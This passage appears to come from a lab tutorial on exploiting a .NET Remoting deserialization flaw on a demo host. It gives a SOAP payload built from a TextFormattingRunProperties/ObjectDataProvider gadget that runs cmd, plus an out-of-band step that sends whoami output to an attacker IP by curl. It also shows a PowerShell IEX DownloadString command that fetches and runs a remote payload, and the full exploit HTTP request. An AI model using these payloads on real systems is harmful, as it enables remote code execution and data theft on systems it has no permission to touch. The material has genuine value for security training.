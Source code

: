 ```xml
<a1:TextFormattingRunProperties id="ref-1" xmlns:a1="http://schemas.microsoft.com/clr/nsassem/Microsoft.VisualStudio.Text.Formatting/Microsoft.PowerShell.Editor%2C%20Version%3D3.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3D31bf3856ad364e35">
<ForegroundBrush id="ref-3">&#60;ResourceDictionary
  xmlns=&#34;http://schemas.microsoft.com/winfx/2006/xaml/presentation&#34;
  xmlns:x=&#34;http://schemas.microsoft.com/winfx/2006/xaml&#34;
  xmlns:System=&#34;clr-namespace:System;assembly=mscorlib&#34;
  xmlns:Diag=&#34;clr-namespace:System.Diagnostics;assembly=system&#34;&#62;
     &#60;ObjectDataProvider x:Key=&#34;&#34; ObjectType = &#34;{ x:Type Diag:Process}&#34; MethodName = &#34;Start&#34; &#62;
     &#60;ObjectDataProvider.MethodParameters&#62;
        &#60;System:String&#62;cmd&#60;/System:String&#62;
        &#60;System:String&#62;&#34;/c ping 10.10.27.2&#34; &#60;/System:String&#62;
     &#60;/ObjectDataProvider.MethodParameters&#62;
    &#60;/ObjectDataProvider&#62;
&#60;/ResourceDictionary&#62;</ForegroundBrush>
</a1:TextFormattingRunProperties>
</SOAP-ENV:Envelope>
```



**Get command output using an out-of-band channel**

There are many methods to achieve that goal. We will do the task using PowerShell. First, we will create the following snippet and then host it using Python's SimpleHTTPServer module.

```cmd
$c=whoami;curl http://10.10.27.2:445/$c
```

```bash
python3 -m http.server 445
```

And finally, the following command is injected into the serialized payload:

```cmd
powershell -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.27.2:445/payload.txt')"
```



The request for out-of-band data exfiltration via command execution is:

```xml
POST /VulnerableEndpoint.rem HTTP/1.1
Host: demo.ine.local:1234
SOAPAction: something
Content-type: text/xml
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://demo.ine.local/
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 1478

<SOAP-ENV:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:clr="http://schemas.microsoft.com/soap/encoding/clr/1.0" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
<a1:TextFormattingRunProperties id="ref-1" xmlns:a1="http://schemas.microsoft.com/clr/nsassem/Microsoft.VisualStudio.Text.Formatting/Microsoft.PowerShell.Editor%2C%20Version%3D3.0.0.0%2C%20Culture%3Dneutral%2C%20PublicKeyToken%3D31bf3856ad364e35">
<ForegroundBrush id="ref-3">&#60;ResourceDictionary
  xmlns=&#34;http://schemas.microsoft.com/winfx/2006/xaml/presentation&#34;
```